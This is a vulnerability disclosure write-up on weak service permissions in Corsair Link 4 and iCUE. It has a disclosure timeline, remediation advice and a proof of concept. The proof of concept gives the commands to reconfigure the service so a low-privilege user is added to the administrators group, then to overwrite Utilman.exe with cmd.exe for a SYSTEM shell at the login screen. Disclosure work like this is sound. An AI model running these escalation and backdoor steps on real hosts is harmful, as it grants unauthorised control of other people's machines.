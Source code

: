 # Unprivilaged to System via Corsair Link 4 and Corsair iCUE

## Disclosure
* 2018/12/07 - No Corsair Bug Bounty program Idenitifed.
* 2018/12/07 - Reached out to Corsair via Customer Support (Ticket #819734)
* 2018/12/12 - Advised by Corsair rep that they have no bug bounty program, advised to submit to buisness sales... 
* 2018/12/12 - Reaching out to Corsair developer over twitter, may actually get somewhere.
* 2018/12/12 - Added iCUE details
* 2018/12/12 - Disclosure PDF sent to `Dustin.sklavos@corsair.com`


## Summary 
The [Corsair Link](https://www.corsair.com/eu/en/corsairlink) and [Corsair iCUE](https://www.corsair.com/eu/en/icue) platforms, used to manage Corsair hardware via the Operating System, create a system service (`Clink4Service` in the Corsaire Link and `CorsairService` in iCUE) with weak service permissions that can be accessed and modified to allow an unprivilaged user to perform a privilage escalation attack. This can be used to attain Administrative, or System Level access if chained.

## Vulnerability Impact
* This attack would allow a malicious user to gain privileged access to a compromised host.
    * https://attack.mitre.org/techniques/T1058
    * https://attack.mitre.org/techniques/T1035
    * https://pentestlab.blog/2017/03/30/weak-service-permissions/
    * http://hackingandsecurity.blogspot.com/2017/07/windows-privilege-escalation-via-weak.html

* This is a local privilege escalation, and will not perform the initial compromise of a host. 

## Remediation
Services should be generated with appropriately secure Security Descriptors to prevent malicious use of this service.

## Proof Of Concept

> A video for this Proof Of Concept can be found here: https://drive.google.com/open?id=1Bw7e_ccTFAs_caPb-1ENxy28CHoqgyOp

The scenario starts with an attacker having gained access to a victim host, be this via direct exploitation, phishing, drive by or any other exploitative method.

The machine we are attacking has two user accounts:

* `user` an administrative account
* `victim` an unprivilaged account

The Corsair LINK v4.9.7.35 is also installed.

![CLink4](CL4-installed.png)

The administrative user group is in this state:

![Admins](admingroupstart.png)

The vulnerabliltiy presented by the Corsair Link 4 is in its Service configuration, we can use the `Accesschk64.exe` binary from Windows Sysinternals to detect this weakness:

`> accesschk64.exe -uwcqv "victim" *`

The output of this command shows us that we have full access to the service named `CLink4Service`. This means we can modify the configuration of this service. Maybe it can do something for us!

![Clink Service](serviceaccess.png)

If we take a look at the service itself we can see several things we may be able to take advantage of. 

Firstly and importantly the `SERVICE_START_NAME : LocalSystem` value shows us that this service will run under `NT AUTHORITY\SYSTEM` user and privileges. Secondly the `START_TYPE` being set to Demand Start, means that the service is requested to start when it begins, we can modify this to automatically start and run whatever the service binary is.

![Service Query](servicequery.png)

Our next step is to stop the service using the windows service control:

`> sc stop "CLink4Service"`

> The service start and stop was problematic here, due to the service not properly accepting control codes. in the example video I need to reboot the host.

We can then then procede to start modifying the service to our needs:

![Service Modification](servicemod.png)

This changes the service binary to the net command:

`net localgroup administrators victim /add` which will add a user to the local administrators group when run, additionally we specified `start= Auto` so that the service will start automatically when the system starts up

Then we can just start the service up again!

`> sc start "CLink4Service"`

> As above this was a pain beuacse the service didnt respond to control codes correctly, so we had to restart the system.

We can now see that our unprivilaged user, is part of the administrators group!

![victim admin](victimadmin.png)

As far as a perfect Privilege Escalation goes, we've got admin on the box, but lets use another bypass to get system, just beacuse we can!

We're going to replace the Accessabilities Utility with the command processor which will give us this!

First we need to take ownership of the target file, super simple: `takeown /F Utilman.exe`

We need to do this from an elevated command prompt, but since we're in the admin group we can use our own credentials to achieve this.

![Take Own](takeown.png)

Because of the permissions on `Utilman.exe` we need to grant ourselves rights to modify it, as we are the owner we can do this using `icacls`:

![icacls grant](icaclsgrant.png)

Finally we literally just copy `cmd.exe` over `utilman.exe` and thats it.

![utilman overwrite](utiloverwrite.png)

Last step is the easiest, we just logout and select the utilities manager at the login screen!

![System](system.png)

If for whatever reason you absolutely needed SYSTEM level access, you now have it.


## Corsair iCUE 

The same issue is present in the iCUE service:
![iCue Version](iCUEVersion.png)

![iCue](iCueservice.png)

